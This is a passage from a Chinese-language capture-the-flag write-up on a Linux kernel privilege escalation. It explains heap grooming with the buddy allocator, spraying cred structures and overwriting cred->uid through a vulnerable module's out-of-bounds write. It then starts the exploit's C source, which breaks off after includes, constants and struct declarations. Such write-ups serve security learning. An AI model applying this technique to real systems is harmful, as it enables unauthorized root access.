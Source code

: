 本题环境中题目的 `kmem_cache` 单次会向 buddy system 请求一张内存页，而由于 buddy system 遵循 LIFO，因此我们可以：

- 先分配大量的单张内存页，耗尽 buddy 中的 low-order pages。
- 间隔一张内存页释放掉部分单张内存页，之后堆喷 cred，这样便有几率获取到我们释放的单张内存页。
- 释放掉之前的间隔内存页，调用漏洞函数分配堆块，这样便有几率获取到我们释放的间隔内存页。
- 利用模块中漏洞进行越界写，篡改 `cred->uid` ，完成提权。

我们的子进程需要轮询等待自己的 uid 变为 root，但是这种做法并不优雅：) ，所以笔者这里选择用一个新的管道在主进程与子进程间通信，当子进程从管道中读出1字节时便开始检查自己是否成功提权，若未提权则直接 sleep 即可。

### EXPLOIT

最后的 exp 如下：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdint.h>
#include <string.h>
#include <sched.h>
#include <time.h>
#include <sys/socket.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/wait.h>

#define PGV_PAGE_NUM 1000
#define PGV_CRED_START (PGV_PAGE_NUM / 2)
#define CRED_SPRAY_NUM 514

#define PACKET_VERSION 10
#define PACKET_TX_RING 13

#define VUL_OBJ_NUM 400
#define VUL_OBJ_SIZE 512
#define VUL_OBJ_PER_SLUB 8
#define VUL_OBJ_SLUB_NUM (VUL_OBJ_NUM / VUL_OBJ_PER_SLUB)

struct tpacket_req {
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

enum tpacket_versions {
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};

struct castaway_request {
    int64_t index;
    size_t	size;
    void 	*buf;
};

struct page_request {
    int idx;
    int cmd;
};
```